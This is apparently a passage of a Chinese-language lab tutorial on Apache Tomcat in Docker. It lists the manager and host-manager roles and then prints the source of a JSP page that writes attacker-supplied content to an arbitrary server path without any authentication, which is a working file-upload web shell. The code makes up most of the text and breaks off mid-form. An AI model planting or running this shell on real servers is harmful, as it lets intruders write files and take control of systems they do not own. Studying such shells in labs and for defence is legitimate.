 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa6J5YOHuYPib02W9O52icbxxkzr4Ux30mI6j2e36gB3BLeAU9q0dLYzqw/640?wx_fmt=jpeg)

之前的容器要关掉

去 docker 底层看看它的源码

```
manager-gui     拥有htmL页面权限
manager-status  拥有查看 status的权限
manager-script  拥有text接口的权限，和 status权限
manager-jmx     拥有jmx权限，和 status权限

```

把这三个文件复制出来

```
admin-gui    拥有html页面权限
admin-script 拥有text接口权限

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa9FQ2Hf5Pxd4fXgSZRj0ylFn4pUFwHMbvpJJwzrSrFiaQ9ClMWI0tiaOg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QazED0icdmG8UclAcsw5mkGPuWoEdolm5YkQwibvU3OlJjZg59icQ2JEpeA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaR4z4jhUpeTPkApNzfMPfl1dI4ZKT1cfFYbOcAQnxXvKQscsbMfntjQ/640?wx_fmt=jpeg)

源码

```
<%@page contentType="text/html;charset=gb2312"%>
<%@page import="java.io.*,java.util.*,java.net.*"%>
<html>
  <head>
    <title></title>
    <style type="text/css">
     body { color:red; font-size:12px; background-color:white; }
    </style>
  </head>
  <body>
  <%
   if(request.getParameter("context")!=null)
   {
   String context=new String(request.getParameter("context").getBytes("ISO-8859-1"),"gb2312");
   String path=new String(request.getParameter("path").getBytes("ISO-8859-1"),"gb2312");
   OutputStream pt = null;
        try {
            pt = new FileOutputStream(path);
            pt.write(context.getBytes());
            out.println("<a href='"+request.getScheme()+"://"+request.getServerName()+":"+request.getServerPort()+request.getRequestURI()+"'><font color='red' title='点击可以转到上传的文件页面!'>上传成功!</font></a>");
        } catch (FileNotFoundException ex2) {
            out.println("<font color='red'>上传失败!</font>");
        } catch (IOException ex) {
            out.println("<font color='red'>上传失败!</font>");
        } finally {
            try {
                pt.close();
            } catch (IOException ex3) {
                out.println("<font color='red'>上传失败!</font>");
            }
        }
}
  %>
    <form >
```
